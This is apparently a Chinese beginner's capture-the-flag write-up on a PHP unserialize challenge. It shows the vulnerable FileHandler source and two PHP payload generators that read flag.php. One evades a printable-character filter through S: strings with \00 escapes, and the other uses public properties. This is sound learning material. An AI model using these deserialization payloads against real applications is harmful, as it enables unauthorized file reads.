






本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，直接将源码给我们了，进行代码审计，
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
| <?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler {
protected $op;
protected $filename;
protected $content;
function __construct() {
$op = "1";
$filename = "/tmp/tmpfile";
$content = "Hello World!";
$this->process();
}
public function process() {
if($this->op == "1") {
$this->write();
} else if($this->op == "2") {
$res = $this->read();
$this->output($res);
} else {
$this->output("Bad Hacker!");
}
}
private function write() {
if(isset($this->filename) && isset($this->content)) {
if(strlen((string)$this->content) > 100) {
$this->output("Too long!");
die();
}
$res = file_put_contents($this->filename, $this->content);
if($res) $this->output("Successful!");
else $this->output("Failed!");
} else {
$this->output("Failed!");
}
}
private function read() {
$res = "";
if(isset($this->filename)) {
$res = file_get_contents($this->filename);
}
return $res;
}
private function output($s) {
echo "[Result]: <br>";
echo $s;
}
function __destruct() {
if($this->op === "2")
$this->op = "1";
$this->content = "";
$this->process();
}
}
function is_valid($s) {
for($i = 0; $i < strlen($s); $i++)
if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
return false;
return true;
}
if(isset($_GET{'str'})) {
$str = (string)$_GET['str'];
if(is_valid($str)) {
$obj = unserialize($str);
}
}
|
代码有点长，但对每个方法进行分析还是很清晰的，推出这是一道反序列化漏洞题，
输出flag的条件有两个：
1.op=2，直接等于整数型2，可以绕过__destruct()中的强相等==='2'，又可以符合__construct()中的弱相等=='2'
2.filename='flag.php'
尝试构筑payload：

发现保护属性序列化会有特殊符号\x00（也就是NULL符号，ASCLL码值为0）会被is_valid($s)过滤掉
方法一:十六进制表示绕过
PHP 的序列化格式中，字符串有两种表示方法：
s: - 标准字符串表示
S: - 支持十六进制转义的字符串表示（PHP 特有扩展）
S: 的十六进制表示特性
S: 格式允许使用 \xHH 形式表示字符：
\x00 → 可以表示为 \00
\x2a (*) → 可以表示为 \2a
所以我们可以：
将 s: 替换为 S:
将 \x00 替换为 \00
进行绕过
is_valid() 通常检查ASCII 0-31的控制字符
\00是三个可见字符\, 0, 0，不是真正的NULL字节
PHP 反序列化时会将\00重新解释为\x00
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| <?php
class FileHandler {
protected $op = 2;
protected $filename = "flag.php";
}
$obj = new FileHandler();
$payload = serialize($obj);
$payload = str_replace('s:', 'S:', $payload);
$payload = str_replace("\x00", '\00', $payload);
echo $payload;
?>
|


查看源码，

获得flag
方法二：使用 public 属性代替 protected
PHP 7.1+ 版本对属性修饰符（public、protected、private）的序列化处理较为宽松，public 属性不会引入\x00字符，因此可以直接绕过
is_valid()检查。
1
2
3
4
5
6
7
8
| <?php
class FileHandler {
public $op = 2;
public $filename = "flag.php";
public $content = "";
}
$filehandler = new FileHandler();
echo serialize($filehandler);
|


查看源码，